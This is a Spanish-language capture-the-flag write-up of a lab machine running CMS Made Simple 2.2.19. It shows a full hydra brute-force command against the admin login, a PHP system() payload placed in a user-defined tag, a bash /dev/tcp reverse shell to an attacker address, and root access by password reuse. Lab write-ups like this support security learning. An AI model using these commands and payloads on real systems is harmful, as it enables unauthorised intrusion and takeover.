 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho

![image](https://github.com/user-attachments/assets/e7c0645d-1ef4-4150-94ae-581a881de90a)

 nos vamos al código fuente y dice al final:
 
![image](https://github.com/user-attachments/assets/4e554fc6-666b-408a-8609-1b41c78ea9a7)

entramos:
> http://172.17.0.2/cmsms/
> 
![image](https://github.com/user-attachments/assets/e690e84e-f33d-4b2a-9c3c-53e1b49b5e6c)

buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:

![image](https://github.com/user-attachments/assets/77cc8607-d8e3-4ae9-b77f-5e8c4a8833a5)

Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![image](https://github.com/user-attachments/assets/6b2308bf-3725-4455-b601-cbfa0091862f)

que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![image](https://github.com/user-attachments/assets/7d840e91-62f4-4ccd-ae4e-0d7931073828)

Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![image](https://github.com/user-attachments/assets/6d2f3c8e-5ace-4a65-a55d-efcfe4078650)


y nos da la contraseña "chocolate" para admin
probamos en el panel de login

![image](https://github.com/user-attachments/assets/386e9cb0-5a71-4b1d-812d-dc6a0972ad2f)

ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![image](https://github.com/user-attachments/assets/002a7c04-f680-4f37-b1f4-3b5d3a345efe)


en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:

![image](https://github.com/user-attachments/assets/cb6c9261-d0ae-4ffb-b8ba-2aeeda6aa241)


probamos si la vulnerabilidad que encontramos esta funcionando:
![[prueba 3.png]]
nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![[reverse .png]]

entonces la lanzamos con el terminal en escucha y entramos.
![[conexion .png]]
dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root
![[final.png]]
y somos root! 


